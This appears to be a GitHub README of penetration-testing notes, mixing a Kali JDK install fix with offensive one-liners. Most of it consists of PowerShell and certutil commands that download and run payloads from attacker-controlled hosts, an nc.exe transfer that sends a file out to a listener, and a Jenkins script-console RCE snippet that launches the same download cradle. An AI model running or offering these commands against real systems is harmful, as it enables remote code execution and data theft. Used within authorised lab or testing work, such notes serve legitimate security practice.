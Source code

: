 # PITA-commands-and-setups
Collection of pain in the ass commands which take a bit of googling to find the successful setup





```Installing jdk-8 in kali 2020.X```
- $ sudo apt-get install openjdk-8-jdk
- $ echo "deb http://ftp.us.debian.org/debian sid main" >> /etc/apt/sources.list
- $ apt-get update && apt-get upgrade
- $ sudo apt-get install openjdk-8-jdk
- $ sudo update-alternatives --config java

```linux b64 -> NT utf-16le b64```
- $ echo 'command here' | iconv -t utf-16le | base64 -w 0

```shellings```
- Invoke-WebRequest –Outfile C:\\Windows\\System32\\spool\\drivers\\color\\tcp.ps1 -Uri http://10.10.14.11/tcp.ps1
- powershell -NoP -ExecutionPolicy Bypass –c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')
- certutil.exe -urlcache -split -f "http://ATTACKER/FCUpdateService.exe" FCUpdateService.exe

```pwsh paths```
- C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
- C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe 

```nc.exe file transfers```
- \\\\192.168.119.135\nc.exe -w 3 192.168.119.135 9001 < c:\bank-account.zip 
- nc -lvp 9001 > bank-account.zip 

```jenkins RCE```
- def command = "powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/tcp.ps1')" 
- def proc = command.execute() 
- println(proc.in.text)
